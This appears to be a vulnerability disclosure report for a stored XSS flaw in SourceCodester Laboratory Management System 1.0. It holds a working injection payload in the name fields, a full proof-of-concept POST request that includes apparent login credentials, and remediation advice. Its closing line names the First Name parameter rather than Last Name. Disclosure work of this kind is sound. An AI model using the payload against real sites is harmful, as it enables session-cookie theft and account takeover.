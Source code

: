 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 
:

    Vendor: Sourcecodester
    Product: Laboratory Management System 1.0
    Product URL: Laboratory Management System 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Last Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Last Name
    Severity: High
    Affected URL: /php-lms/classes/Users.php?f=save
    Affected Parameter: Last Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Last Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Last Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Last Name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1L06qR4OZYnUAwMvf-QvLq1KS8tNi9Xmf/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------28315272284843807941132131392
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="id"


-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="type"

1
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------28315272284843807941132131392--


Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First Name parameter of  /php-lms/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.